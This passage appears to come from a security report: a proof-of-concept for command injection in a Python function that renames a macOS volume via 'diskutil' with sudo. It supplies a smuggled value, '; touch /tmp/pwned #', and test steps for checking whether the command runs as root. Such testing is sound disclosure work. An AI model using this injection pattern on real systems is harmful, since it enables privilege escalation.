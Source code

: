     def rename_volume_vulnerable(volume_name, new_volume_name):
        cmd = ['/usr/sbin/diskutil', 'renameVolume', volume_name, new_volume_name]
        stdout, stderr, returncode = gmacpyutil.RunProcess(cmd, sudo=True)
        if returncode != 0:
            print "Error renaming volume:", stderr
        else:
            print "Volume renamed successfully:", stdout

    user_provided_new_volume_name = "; touch /tmp/pwned #" # Malicious input
    rename_volume_vulnerable('/Volumes/MyVolume', user_provided_new_volume_name)
    ```
    2. Set up a test environment where you can run this script.
    3. Execute the hypothetical vulnerable function, providing a malicious `new_volume_name` that includes shell commands, such as `"; touch /tmp/pwned #"`.
    4. Check if the injected command `/tmp/pwned` is created with root privileges.
    5. If the file `/tmp/pwned` is created, it confirms the command injection vulnerability.